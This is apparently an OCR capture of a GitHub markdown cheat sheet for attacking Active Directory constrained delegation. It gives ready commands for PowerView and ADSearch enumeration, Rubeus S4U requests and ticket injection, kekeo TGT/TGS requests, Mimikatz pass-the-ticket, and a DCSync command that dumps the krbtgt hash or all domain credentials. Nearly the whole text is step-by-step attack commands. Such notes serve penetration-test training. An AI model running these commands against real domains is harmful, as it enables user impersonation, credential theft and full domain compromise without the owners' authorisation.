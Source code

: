 ````
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

```
.\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
```

### Constrained delegation User
#### Rubeus calculate password hash
- If only password is available calculate the hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```


#### Check for user to impersonate
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Rubeus request and inject TGT + TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right. 
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /user:<USERNAME> /rc4:<NTLM HASH> /impersonateuser:<USER> /domain:<DOMAIN> /msdsspn:<SERVICE ALLOWED TO DELEGATE>/<SERVER FQDN> /altservice:<SECOND SERVICE> /<SERVER FQDN> /ptt
```

#### Requesting TGT with kekeo
```
./kekeo.exe
Tgt::ask /user:<USERNAME> /domain:<DOMAIN> /rc4:<NTLM HASH>
```

#### Requesting TGS with kekeo
```
Tgs::s4u /tgt:<TGT> /user:<USER>@<DOMAIN> /service:<SERVICE ALLOWED TO DELEGATE/<FQDN SERVER>|<SECOND SERVICE>/<SERVER FQDN>
```

#### Use Mimikatz to inject the TGS ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Constrained delegation Computer
#### Rubeus request and inject TGT + TGS
```
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /aes256:<AES HASH> /opsec /altservice:<SECOND SERVICE> /ptt 
```

#### Rubeus Dump TGT + ask TGS for CIFS
```
.\Rubeus.exe triage
.\Rubeus.exe dump \luid:<LUID> \service:<SERVICE>
````